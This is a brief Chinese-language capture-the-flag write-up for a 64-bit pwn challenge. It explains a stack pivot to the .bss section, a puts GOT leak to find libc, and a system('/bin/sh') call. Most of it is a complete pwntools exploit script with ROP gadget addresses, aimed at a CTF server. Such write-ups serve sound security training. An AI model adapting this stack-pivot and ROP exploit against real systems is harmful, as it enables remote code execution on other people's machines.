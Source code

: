 ```yaml
---
title: newstar2023 week3 - stack migration revenge
date: 2023/10/14 12:00:00
tags:
    - noob
excerpt: 通过栈迁移到bss区控制地址，利用GOT和PLT泄露libc地址并执行system函数。
---
```


## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序
~~怎么这次都是-2.zip~~

## 解题思路

程序很简单，但是拿不到栈地址，怎么办？  
迁移到bss上后，地址就可控了，回到了上次的栈迁移

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 25597)
elf = ELF('stackm')
bss = 0x404800
read = 0x4011ff # read to bss - 0x50

# payload 1, stack pivot to bss
sh.send(b'0'*0x50 + p64(bss) + p64(read))

sh.recvuntil(b'ny\n') #skip
putsGot = elf.got['puts']
putsPlt = elf.plt['puts']
vulnAddr = 0x4011db
popRdiAddr = 0x4012b3
retAddr = 0x401228
leaveRetAddr = 0x401227

# payload 2, stack pivot to popRdi
sh.send(p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr) + b'0'*0x30 + p64(bss - 0x58) + p64(leaveRetAddr))

sh.recvuntil(b'ny\n') # skip
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
systemAddr = libcBase + libc.dump('system')
shstrAddr = libcBase + libc.dump('str_bin_sh')

# payload 3
sh.send(p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr) + b'0'*0x30 + p64(bss - 0x90) + p64(leaveRetAddr))

sh.interactive()
```

Done.
